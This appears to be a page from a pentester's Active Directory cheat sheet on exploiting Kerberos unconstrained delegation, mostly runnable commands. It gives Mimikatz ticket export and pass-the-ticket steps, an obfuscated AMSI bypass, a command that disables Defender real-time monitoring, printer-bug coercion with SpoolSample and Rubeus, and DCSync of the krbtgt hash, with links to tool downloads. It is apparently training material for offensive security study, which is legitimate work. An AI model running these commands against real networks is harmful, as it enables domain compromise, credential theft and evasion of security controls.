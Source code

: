 ```yaml
---
layout: page
title: "# AD Uncontrained Delegation"
permalink: /ad_cheatsheets/ad_uncontrained_delegation
---
```


# AD Uncontrained Delegation

## Find Servers that has unconstrained delegation

```powershell
#PowerView
Get-NetComputer -Unconstrained | select -ExpandProperty name
#OR Powerview All Info (find - TRUSTED_FOR_DELEGATION to find computer that has unconstrained delegation)
Get-DomainComputer -Unconstrained
```

We need to have local admin priv on the device that has Uncontstrained Delegation rights

## MimiKatz - Get all tickets:

*If no tickets are present we might need to enforce them by activating the app that needs unconstrained delegation. Or you might choose to exploit the printerbug - PrintSpoofer

```powershell
privilege::debug

sekurlsa::tickets
```

## MimiKatz - Export Tickets and import them into our process:

```powershell
privilege::debug

sekurlsa::tickets /export

kerberos::ptt %NAME OF EXPORTED TICKET%.kirbi

#OR in a oneliner
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user648\[0;334d6c]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbii"'

#Use PSEXEC to test access to domain controller:
C:\Tools\SysinternalsSuite\PsExec.exe \\dc01 cmd
```

## Mimikatz On another Session

Use below approach to connect to another session and use MimiKatz

```powershell
powershell -ep bypass

$sess = New-PSSession -ComputerName dcorp-appsrv.dollarcorp.moneycorp.local

Enter-PSSession -Session $sess

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

exit

Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession -Session $sess

Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

ls | select name
```

When we don't see a ticket, we need to trick DA

```powershell
#Using PowerSploit UserHunter
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

## Using Rubeus Monitor For Authentication

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Copy-Item -ToSession $appsrv1 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\appadmin\Downloads

.\Rubeus.exe monitor /interval:5/nowrap

. .\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

```

Rubeus - Compiled x64 - .NET 4.7

[Rubeus.zip](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dfa51442-deac-429b-a602-a306de77dbd4/Rubeus.zip)

## Exploiting Spoolss (printer) for non-interactige escalation

We do this by retrieving the Domain Controllers computer account ticket.

```powershell
#Check it the spooler is listening (port 445):
dir \\dc01\pipe\spoolss

#Launch Rubeus in monitor mode to refresh every 5 seconds to listen to the domain controller:
Rubeus.exe monitor /interval:5 /filteruser:DC01$

#Launch a second CMD and trigger the compiled version of https://github.com/leechristensen/SpoolSample to trigger the print spooler change notification with SpoolSample.exe by specifying the target machine and capture server. Sometimes the tool needs to be run multiple times before the change notification callback takes place:
SpoolSample.exe DC01 APPSRV01

#Read the ticketname and inject it back in our own process:
Rubeus.exe ptt /ticket:%TICKETNAME%

#Having the domain controller Computer Ticket we are not a domain admin but we can perform a dcsync to dump the password hash of any user:
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

Download SpoolSample: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

[SpoolSample.zip](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6adc162f-d776-4fb1-915e-696b25541d6b/SpoolSample.zip)

* We can also use krbrelayx - [https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx) to do all the above from our Kali machine.

[Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

[Kerberos Unconstrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
